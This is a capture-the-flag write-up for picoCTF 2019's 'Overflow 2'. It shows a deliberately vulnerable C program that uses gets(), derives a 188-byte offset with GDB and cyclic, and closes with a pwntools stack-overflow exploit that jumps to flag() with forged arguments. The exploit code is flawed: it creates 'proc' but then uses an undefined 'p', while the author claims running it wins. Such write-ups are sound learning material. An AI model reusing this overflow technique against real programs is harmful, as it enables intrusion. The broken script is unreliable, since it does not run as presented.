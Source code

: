[Back](PicoFrontPage.md)

# Overflow 2

### Tools
* GEF-GDB
* Pwntools - Python3
* Some Python tools
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments
* Calls `gets()` again

I do recommend using a disassembler and debugger to figure out and visualize these as a little challenge though. 

### Analysis

#### Static

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->
![Image of GEF](../Images/PicoCTF2019/disasvulnoverflow2.jpg)

So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->
![Image of Stack](../Images/PicoCTF2019/StackOverflow2.jpg)

Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`
Convert it to bytes through:
`
python
0xbc
`
And it should return 188 bytes

#### Dynamic

Let's confirm if what we assumed is right through dynamic analysis.
Use the cyclic tool to get a string to feed to the program: `cyclic 200`

Run GDB for the program: `gdb ./vuln` and then `run`

Feed the string to the input and then analyze!

<!-- OverflowedOverflow2 -->
![Image of overflowed](../Images/PicoCTF2019/OverflowedOverflow2.jpg)

We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->
![Image of args](../Images/PicoCTF2019/Overflow2args.jpg)

This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->
![Image of argsdisassembler](../Images/PicoCTF2019/Overflow2argsdisassembler.jpg)
<!-- Overflow2argsdisassembler2 -->
![Image of argsdisassembler2](../Images/PicoCTF2019/Overflow2argsdisassembler2.jpg)

We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.
To help you visualize:

<!-- StackOverflow2WithArgs -->
![Image of StackOverflow2WithArgs](Images/PicoCTF2019/StackOverflow2WithArgs.jpg)

* *"What is something?"*
Truth is, I don't know, I'm just a beginner like you guys.

Now, do the classic, find out the `flag()` address and let's get scripting.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln')

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

p.recvuntil(b'Please enter your string:')

p.sendline(payload)

p.interactive()
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)
